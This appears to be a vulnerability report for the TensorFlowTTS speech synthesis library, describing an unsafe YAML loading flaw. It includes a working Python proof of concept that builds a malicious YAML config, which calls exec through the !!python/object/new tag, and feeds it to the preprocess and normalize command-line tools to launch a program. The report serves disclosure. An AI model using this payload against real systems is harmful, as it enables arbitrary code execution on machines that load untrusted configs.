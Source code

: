 ## ✍️ Description
TensorFlowTTS provides real-time state-of-the-art speech synthesis architectures such as Tacotron-2, Melgan, Multiband-Melgan, FastSpeech, FastSpeech2 based-on TensorFlow 2. With Tensorflow 2, we can speed-up training/inference progress, optimizer further by using fake-quantize aware and pruning, make TTS models can be run faster than real-time and be able to deploy on mobile devices or embedded systems.
* **Vulnerability discription**
Vulnerable to yaml deserilisation attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
* run the exploit code
```python
# exploit.py
import os
os.system('pip install TensorFlowTTS')
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('rm exploit.yml exploit.yaml')
open('exploit.yml','w+').write(exploit)
print("\n\nexploiting preprocess in tts")
cmd = str('''tensorflow-tts-preprocess --rootdir ./ --outdir ./ --config exploit.yml ''')
os.system(cmd)
print("\n\nexploiting normalize in tts")
cmd1 = str('''tensorflow-tts-normalize --rootdir ./ --outdir ./ --config exploit.yml ''')
os.system(cmd1)
``` 
* [Video Link](https://cdn.discordapp.com/attachments/789769803770494996/791775352069816360/tts-2020-12-25_02.41.29.mkv)
